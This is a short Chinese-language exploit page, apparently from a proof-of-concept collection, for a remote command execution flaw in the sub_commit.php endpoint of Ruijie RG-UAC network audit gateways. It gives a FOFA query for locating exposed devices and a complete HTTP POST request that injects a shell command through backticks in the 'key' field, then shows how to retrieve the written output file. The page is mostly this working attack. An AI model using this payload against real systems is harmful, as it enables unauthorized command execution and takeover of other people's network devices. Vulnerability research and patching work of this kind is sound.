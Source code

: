 ## 锐捷RG-UAC统一上网行为管理审计系统sub_commit.php存在远程代码执行

锐捷RG-UAC中存在命令执行漏洞，应用程序管理网关后端/view/vpn/autovpn/sub_commit.php接口。攻击者可以执行任意命令来控制服务器权限。

## fofa

```
app="Ruijie-RG-UAC"
```

## poc

```
POST /view/vpn/autovpn/sub_commit.php?action=delete HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) 
Gecko/20100101 Firefox/124.0
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*
;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-GPC: 1
Connection: close
Cookie: PHPSESSID=ebd507c9bc5a4293c3e5e596f37157bf
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 0000:0000:0000::0000
X-Originating-IP: 0000:0000:0000::0000
X-Remote-IP: 0000:0000:0000::0000
X-Remote-Addr: 0000:0000:0000::0000
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

key=`id+>3.txt`
```

![image-20240526190815714](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261908795.png)



文件路径 ` /view/vpn/autovpn/3.txt`

![image-20240526190913268](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261909328.png)